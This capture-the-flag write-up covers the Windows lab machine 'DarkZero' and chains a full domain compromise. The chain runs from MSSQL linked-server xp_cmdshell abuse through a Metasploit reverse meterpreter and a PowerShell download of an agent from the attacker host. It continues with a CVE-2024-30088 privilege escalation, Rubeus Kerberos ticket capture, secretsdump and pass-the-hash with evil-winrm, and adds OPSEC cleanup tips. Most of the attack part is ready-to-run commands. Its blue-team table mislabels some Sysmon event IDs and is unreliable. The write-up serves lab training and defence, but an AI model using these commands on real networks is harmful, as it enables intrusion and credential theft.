# DarkZero

```
Difficulty: Hard
Operating System: Windows
Hints: True
```


## TL;DR

Using the credentials **john.w:RFulUtONCOL!**, I performed service enumeration and discovered **DC01** is multihomed (10.10.11.89 and 172.16.20.1). I abused MSSQL linked servers to enable `xp_cmdshell` on the linked host, used Metasploit's `web_delivery` to gain a meterpreter shell on the internal interface, escalated to SYSTEM via a local exploit (CVE-2024-30088), ran **Rubeus** to capture Kerberos ticket material by triggering an SMB call via `xp_dirtree`, converted the captured ticket into a usable cache, and used `impacket-secretsdump` and `evil-winrm` to gain Administrator access and retrieve the root flag.


| Step |             User / Access            | Technique Used                                  | Result                                                                                                                        |
| :--: | :-: | :- | :- |
|   1  |                 `N/A`                | **Port & AD Service Enumeration**               | nmap revealed AD services + MSSQL on 10.10.11.89; DNS returned 10.10.11.89 and 172.16.20.1 (multihomed / split-horizon).      |
|   2  |               `john.w`               | **SMB / LDAP Auth & Host Mapping**              | Valid creds used to enumerate SMB; generated hosts file and confirmed limited shares.                                         |
|   3  |               `john.w`               | **MSSQL Auth & Linked Server Discovery**        | Connected to MSSQL; enumerated linked servers and discovered `DC02.darkzero.ext` mapped to higher-privileged login.           |
|   4  | `john.w` → `dc01_sql_svc` (via link) | **Enable `xp_cmdshell` on Linked Server**       | Switched context to linked server and enabled `xp_cmdshell`.                                                                  |
|   5  |        `darkzero-ext\svc_sql`        | **Remote Command Execution (web_delivery)**     | Executed Metasploit web_delivery base64 payload via `xp_cmdshell` → meterpreter shell on internal 172.16.20.2.                |
|   6  |        `darkzero-ext\svc_sql`        | **Pivot / Internal Recon**                      | Confirmed internal interface and enumerated local services for LPE.                                                           |
|   7  |         `svc_sql` → `SYSTEM`         | **Local Privilege Escalation (CVE-2024-30088)** | Used local exploit to obtain `NT AUTHORITY\SYSTEM`.                                                                           |
|   8  |           `SYSTEM` on DC02           | **Rubeus Monitor**                              | Uploaded / ran Rubeus to capture Kerberos TGT/TGS (base64 `.kirbi`) when server triggered SMB access.                         |
|   9  |              `Attacker`              | **Trigger Kerberos/NTLM via xp_dirtree**        | From MSSQL executed `xp_dirtree \\DC02\...` which caused DC01 to request ticket / fall back to NTLM — Rubeus captured output. |
|  10  |              `Attacker`              | **Ticket conversion & use**                     | Converted captured `.kirbi` → ccache; set `KRB5CCNAME` and validated with `klist`.                                            |
|  11  |            `Administrator`           | **Secrets extraction & final access**           | Used `impacket-secretsdump -k` and `evil-winrm` (or psexec with recovered hash) to get Administrator and read root flag.      |





## Recon & host discovery

I started with a full TCP nmap scan of the domain controller:

```bash
nmap -p 1-65535 -T4 -A -v 10.10.11.89
```

**Nmap highlights:**

* 53/tcp open domain (Simple DNS Plus)
* 88/tcp open kerberos-sec (Microsoft Windows Kerberos)
* 135/tcp open msrpc
* 139/tcp open netbios-ssn
* 389/tcp open ldap (Active Directory)
* 445/tcp open microsoft-ds
* 636/tcp open ssl/ldap
* 1433/tcp open ms-sql-s (Microsoft SQL Server 16.00.1000.00)
* 3268/tcp, 3269/tcp open (LDAP / LDAPS global catalog)
* multiple high msrpc ports open

> The host is multihomed: DNS for `darkzero.htb` returned both `10.10.11.89` and `172.16.20.1` (split-horizon / internal network). Services bound to the `172.16.x` interface are internal-only and relevant for pivoting.



Generate hosts file and enumerate SMB:

```bash
nxc smb 10.10.11.89 -u 'john.w' -p 'RFulUtONCOL!' --generate-hosts-file /etc/hosts
smbmap -H 10.10.11.89 -d 'darkzero.htb' -u 'john.w' -p 'RFulUtONCOL!'
```



(SMB/BloodHound enumeration produced only default shares.)

Query DNS (discover split-horizon / multihomed host):

```bash
dig @DC01.darkzero.htb ANY darkzero.htb
```



The authoritative DNS response returned two A records for `darkzero.htb`: `10.10.11.89` and `172.16.20.1`. This indicates a split-horizon DNS or multihomed host. In this box, `10.10.11.89` answered while `172.16.20.1` appears internal-only. This distinction matters for pivoting and service reachability.


## Prepare Meterpreter payload (Metasploit `web_delivery`)

Create and run a web_delivery meterpreter job from msfconsole:

```bash
msfconsole -q -x "use exploit/multi/script/web_delivery ; set payload windows/x64/meterpreter/reverse_tcp ; set LHOST tun0 ; set LPORT 443 ; set target 2 ; exploit -j"
```

This generates a Base64 web-delivery payload to execute via `xp_cmdshell` on the SQL host later.


## Connect to MSSQL and inspect linked servers

Connect to MSSQL using Impacket’s mssql client (Windows auth):

```bash
mssqlclient.py 'darkzero.htb/john.w:RFulUtONCOL!@10.10.11.89' -windows-auth
```



Attempt to enable `xp_cmdshell` on DC01 (failed initially):

```sql
enable_xp_cmdshell -- failed
```

Enumerate linked servers:

```sql
enum_links
-- shows DC02.darkzero.ext as a linked server
```



The linked server configuration shows `DC02.darkzero.ext` as a linked server. The link uses the local account `darkzero\john.w`, which maps to the remote login `dc01_sql_svc` on DC02. This allowed us to run commands on DC02 in a higher-privilege context.

Switch to the linked server and enable `xp_cmdshell` in that context:

```sql
use_link "DC02.darkzero.ext"
enable_xp_cmdshell
-- (Success when run via linked context)
```



Now run the web-delivery payload via `xp_cmdshell`:



```sql
xp_cmdshell "powershell.exe -nop -w hidden -e XXXXXXXXXXXXXXXXXXXX"
```



This provided a meterpreter shell as `darkzero-ext\svc_sql`. Inside the meterpreter session, `ifconfig` revealed an internal IP `172.16.20.2` (internal interface), confirming pivoting into the internal network.


## Local privilege escalation — enumerate & exploit (Metasploit)

Run the local exploit suggester from within Metasploit:

```text
use multi/recon/local_exploit_suggester
set session 1
run
```






From the suggested list we used the CVE-2024-30088 local exploit.

```text
use exploit/windows/local/cve_2024_30088_authz_basep
set payload windows/x64/meterpreter_reverse_tcp
set session 1
set lhost tun0
set AutoCheck false
run
```




After running the exploit and checking `getuid`, we obtained `NT AUTHORITY\SYSTEM` — full administrative access on the host.

**Alternative (non-Metasploit):** Upload a small agent via `xp_cmdshell` and use `lligolo`/route + `impacket psexec.py` with an NTLM hash to pivot and execute commands on DC02.

Example upload and psexec usage:

```sql
xp_cmdshell "powershell wget -UseBasicParsing http://10.10.xx.xx/agent.exe -OutFile %temp%/agent.exe"
```

Then on attacker:

```bash
psexec.py Administrator@172.16.20.2 -hashes :XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

And read user flag:

```text
DC02 : 172.16.20.2
type C:\Users\Administrator\Desktop\user.txt
```



## Rubeus: capture Kerberos ticket material

Other privilege escalation checks (e.g. WinPEAS) returned nothing useful, so we used **Rubeus** to monitor Kerberos activity on the target. Rubeus can detect newly issued or used TGT/TGS tickets and output them in base64 `.kirbi` format.

From SYSTEM / meterpreter on DC02:

```text
cd %temp%
# upload Rubeus.exe via Meterpreter
upload Rubeus.exe
```

Switch to an interactive shell and run Rubeus monitor:

```cmd
shell
C:\Windows\Temp\Rubeus.exe monitor /interval:1 /nowrap
```

Trigger the ticket retrieval from the SQL server by causing it to access an SMB resource on DC02 using `xp_dirtree` from the MSSQL client on DC01:

```bash
impacket-mssqlclient 'darkzero.htb/john.w:RFulUtONCOL!'@DC01.darkzero.htb -windows-auth
-- then on the DB connection:
xp_dirtree \\\\DC02.darkzero.ext\\XXXXXXXXXX
```

Rubeus on DC02 captured the base64 ticket output. Save that output to `ticket.bs4.kirbi`.


## Convert captured ticket to usable Kerberos cache

On your attacker host, decode the base64 ticket and convert it to a ccache:

```bash
cat ticket.bs4.kirbi | base64 -d > ticket.kirbi
python3 ticketConverter.py ticket.kirbi dc01_admin.ccache
export KRB5CCNAME=dc01_admin.ccache
klist
```

Verify the TGT/TGS is present with `klist`.


## Use Kerberos ticket with impacket/secretsdump and evil-winrm

With the converted ticket, run `impacket-secretsdump` to extract secrets or hashes:

```bash
impacket-secretsdump -k -no-pass 'darkzero.htb/DC01$@DC01.darkzero.htb'
```

If NTLM hashes are recovered, authenticate as `Administrator` via `evil-winrm`:

```bash
evil-winrm -i 10.10.11.89 -u administrator -H XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```



Finally read the root flag:

```text
type C:\Users\Administrator\Desktop\root.txt
```




# Short Notes

## **PHASE 1: STRATEGIC OVERVIEW**

| # | Item | Details |
|---|------|---------|
| **1.1** | **High‑Level Definition** | Target is a Windows Domain Controller (DC01) with split‑horizon DNS and an internal DC02 linked via SQL Server. Attack vector: exploit SQL Linked Server + Kerberos capture → privilege escalation to SYSTEM & Administrator. |
| **1.2** | **Operational Impact** | Grand Prize: `NT AUTHORITY\SYSTEM` on DC02 → full domain admin, access to all flags (`user.txt`, `root.txt`). |
| **1.3** | **Scenario Narrative** | • Recon with full‑port Nmap → identified critical AD/SQL ports. <br>• SMB enumeration revealed only default shares (no useful data). <br>• Split‑horizon DNS confirmed internal IPs (`172.16.20.x`). <br>• Exploited SQL Server’s linked server to run `xp_cmdshell` on DC02, launching a web‑delivery meterpreter. <br>• Pivoted into the internal network (IP 172.16.20.2). <br>• Leveraged local exploit CVE‑2024‑30088 to reach SYSTEM. <br>• Captured Kerberos ticket via Rubeus while SQL accessed SMB share, converted to ccache, and used with `impacket‑secretsdump` → obtained Administrator hash. <br>• Final win: `evil-winrm` into DC01 → read root flag. |

## **PHASE 2: SYSTEM ARCHITECTURE & THEORY**

| # | Item | Details |
|---|------|---------|
| **2.1** | **Protocol Environment** | • Active Directory (LDAP/LDAPS, Kerberos). <br>• Microsoft SQL Server 2016‑18 with linked server to DC02.<br>• SMB/CIFS over TCP 445. |
| **2.2** | **Key Components** |  `DC01` – Domain Controller / MSSQL host (10.10.11.89) <br>Service accounts: `darkzero\john.w`, `dc01_sql_svc` on DC02 <br>Tools: Rubeus, impacket‑secretsdump, msfconsole, Metasploit. |
| **2.3** | **Simplified View (Analogy)** | Think of the environment as a **castle with a hidden tunnel**: the SQL server is a gate that can be opened from inside to reach the inner keep (`DC02`). Once inside, you can climb higher by using a secret key (CVE‑2024‑30088) and later pry open any door with the right password (Kerberos ticket). |

## **PHASE 3: THE ATTACK VECTOR (MECHANICS)**

 **The Core Mechanism**

| Primary Identifier | Details |
|---------------------|---------|
| `xp_cmdshell` on SQL Server | Allows execution of arbitrary shell commands in the context of the SQL service account. |
| Linked Server `DC02.darkzero.ext` | Exposes SMB share on DC02; uses local login `darkzero\john.w` mapped to remote `dc01_sql_svc`. |
| `xp_dirtree` | Triggers SMB access, causing Kerberos ticket request or NTLM fallback. |

 **Prerequisites for Success**

| Item | Requirements |
|------|--------------|
| **Access Level** | Valid domain user (`john.w`) with SQL privileges. |
| **Connectivity** | TCP ports: 53, 88, 135, 139, 389, 445, 636, 1433, 3268/9 (all reachable from attack host). |
| **Target State** | `xp_cmdshell` disabled on DC01 but enabled via linked server context; SQL Server service account has rights to remote SMB share. |

## **PHASE 4: EXECUTION & TARGETING**

| Step | Command / Action | Purpose |
|------|------------------|---------|
| 5.1 | `nmap -p1-65535 -T4 -A -v 10.10.11.89` | Full port discovery; confirm AD/SQL services. |
| 5.2 | `dig @DC01.darkzero.htb ANY darkzero.htb` | Reveal split‑horizon IPs (internal vs external). |
| 5.3 | `nxc smb 10.10.11.89 -u 'john.w' -p 'RFulUtONCOL!' --generate-hosts-file /etc/hosts` | SMB enumeration; confirm default shares only. |
| 5.4 | `msfconsole ... exploit/multi/script/web_delivery` | Generate Base64 web‑delivery payload for later execution. |
| 5.5 | `mssqlclient.py 'darkzero.htb/john.w:RFulUtONCOL!@10.10.11.89' -windows-auth` | Connect to MSSQL with Windows auth. |
| 5.6 | `enum_links` → `DC02.darkzero.ext` | Identify linked server. |
| 5.7 | `use_link "DC02.darkzero.ext"` + `enable_xp_cmdshell` | Enable shell in linked context (success). |
| 5.8 | `xp_cmdshell "<web‑delivery payload>"` | Launch meterpreter on DC02 (`darkzero-ext\svc_sql`). |
| 5.9 | Pivot to internal IP (`172.16.20.2`) via meterpreter → `ifconfig`. |
| 5.10 | Run local exploit CVE‑2024‑30088 (Metasploit) or upload agent + `psexec.py` | Gain SYSTEM on DC02. |
| 5.11 | In SYSTEM shell, `upload Rubeus.exe`; run `monitor /interval:1`. | Capture Kerberos ticket while SQL accesses SMB via `xp_dirtree`. |
| 5.12 | Save base64 ticket → `ticket.bs4.kirbi` → decode → ccache (`dc01_admin.ccache`). |
| 5.13 | `impacket‑secretsdump -k -no-pass 'darkzero.htb/DC01$@DC01.darkzero.htb'` | Extract Administrator hash. |
| 5.14 | `evil-winrm -i 10.10.11.89 -u administrator -H <hash>` | Open WinRM as Admin. |
| 5.15 | Read flags: `type C:\Users\Administrator\Desktop\user.txt`, `root.txt`. | Final objective achieved. |

 ## **PHASE 5: THE TOOLKIT & IMPLEMENTATION**

| Tool | Purpose | Key Options |
|------|---------|-------------|
| **Metasploit** (`web_delivery`, `cve_2024_30088`) | Payload generation, local exploit | `LHOST= tun0`, `LPORT=443` |
| **Impacket** (`mssqlclient.py`, `secretsdump`, `psexec.py`) | SQL access, credential dumping, remote exec | Windows‑auth, `-k` for Kerberos |
| **Rubeus** | Kerberos monitoring & ticket capture | `monitor /interval:1 /nowrap` |
| **Evil-WinRM** | WinRM exploitation with NTLM hash | `-i`, `-u`, `-H` |
| **nmap** | Full port scan, OS/Service detection | `-T4 -A` |
| **dig** | DNS enumeration (split‑horizon) | `@DC01.darkzero.htb ANY darkzero.htb` |

 **OPSEC & Stealth**

- Use `web_delivery` over HTTPS to avoid plain‑text traffic.  
- Keep session IDs short; delete temporary files (`Rubeus.exe`) after use.  
- Avoid excessive SMB enumeration once inside; only trigger minimal `xp_dirtree`.  

 **Post‑Exploitation**

- Clean up meterpreter sessions, delete any uploaded binaries.  
- Dump remaining domain credentials with `secretsdump` if needed for further pivoting.

 ## **PHASE 6: DEFENSIVE POSTURE (BLUE TEAM)**

| Detection Benchmark | Event ID / Log |
|----------------------|---------------|
| **Kerberos Ticket Creation** | Security log 4768 (`New Kerberos Ticket Granting Ticket`). |
| **SMB Access from SQL Server** | Sysmon 10 (`ProcessCreate`) with `Image=sqlservr.exe` accessing UNC path. |
| **xp_cmdshell Execution** | SQL Server error logs (message 1560). |
| **Local Exploit Trigger** | Windows Security log 4624 for SYSTEM login, plus sysmon 11 (`ProcessTerminate`). |

 **Mitigation Strategy**

1. **Disable `xp_cmdshell`** on all MSSQL instances unless absolutely required.  
2. **Remove unnecessary Linked Server relationships** or enforce least‑privilege accounts.  
3. **Harden Kerberos**: correct SPNs, enforce time sync, monitor unusual ticket requests.  
4. **Audit SMB Access** from internal services; flag unexpected cross‑DC connections.  
5. **Implement WMI/SMB monitoring** to detect `xp_dirtree`‑like traffic.  

 **Administrative Mindset Shift**

- Treat linked servers as *high‑value trust relationships*; audit every account mapped across domains.  
- Enforce the principle of least privilege on service accounts (e.g., SQL Server).  
- Log and alert on any Kerberos ticket requests from services to external DCs.

**QUICK‑ACTION PLAYBOOK**

| Step | Action | Command / Logic |
|------|--------|----------------|
| 01 | Enumerate SMB shares | `nxc smb <IP> -u john.w -p RFulUtONCOL!` |
| 02 | Enable `xp_cmdshell` via linked server | `use_link "DC02.darkzero.ext"` → `enable_xp_cmdshell` |
| 03 | Launch meterpreter payload | `xp_cmdshell "<web‑delivery>"` |
| 04 | Pivot to internal IP | `ifconfig` (meterpreter) |
| 05 | Run local exploit CVE‑2024‑30088 | Metasploit module or custom agent + psexec |
| 06 | Capture Kerberos ticket with Rubeus | `Rubeus.exe monitor /interval:1` while running `xp_dirtree` |
| 07 | Convert ticket to ccache & dump secrets | `impacket‑secretsdump -k ...` |
| 08 | WinRM as Administrator | `evil-winrm -i <IP> -u administrator -H <hash>` |
| 09 | Read flags | `type C:\Users\Administrator\Desktop\root.txt` |

